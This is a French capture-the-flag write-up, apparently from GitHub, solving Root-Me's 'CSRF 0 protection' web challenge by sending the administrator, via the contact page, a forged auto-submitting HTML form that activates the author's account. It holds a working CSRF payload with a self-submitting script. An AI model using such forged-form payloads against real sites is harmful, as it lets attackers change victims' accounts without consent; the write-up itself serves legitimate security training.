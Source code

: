 ## CSFR 0 protection

On cherche à activer notre compte pour activer l'espace privé de l'intranet. Une fois sur la page d'acceuil on se register puis on se login.

![rootme1](https://user-images.githubusercontent.com/81105172/168243766-b06a27cd-ebb5-4d5b-a0aa-4c46f370cfd7.PNG)

une fois cette étape passée nous gagnons l'accès à de nouvelles pages, la page contact :

![rootme2](https://user-images.githubusercontent.com/81105172/168244176-8e8305f7-6fbd-4133-861e-8e211b5f1e9c.PNG)

et la page profile:

![rootme3](https://user-images.githubusercontent.com/81105172/168244236-b5e4105d-4e69-4b7c-bc7e-fbf64920217b.PNG)

en observant le code source de la page profile, on observe que celle-ci correspond à un forms permettant de post des informations à l'intranet, hors nous ne pouvons pas checkez la case de status nous même ni submit le forms. 
On vas alors envoyer le forms directement par message et ce via l'onglet contact. On vas retoucher légèrement le code du forms, mettant l'url complet et en ajoutant l'argument "checked" au chackbox et nous allons rajoutant un element script pour l'appeler.
on as donc le code ci-dessous :

```html
<form id="form" action="http://challenge01.root-me.org/web-client/ch22/?action=profile" method="post" enctype="multipart/form-data">
  <input type="text" name="username" value="zeobuilder10">
  <input type="checkbox" name="status" checked >
  <button type="submit">Submit</button>
</form>
<script>document.getElementById("form").submit()</script>
```

soit :

![rootme4](https://user-images.githubusercontent.com/81105172/168245319-5246781b-3a23-49e7-8106-cd7e75c7b8c6.PNG)

On appuie alors sur submit et c'est gagnée, il suffit d'aller dans l'onglet Private pour récupérer le code et compléter l'exercice.

![rootme5](https://user-images.githubusercontent.com/81105172/168245509-c41d9ebc-d1e9-4aa6-867a-99297265c611.PNG)
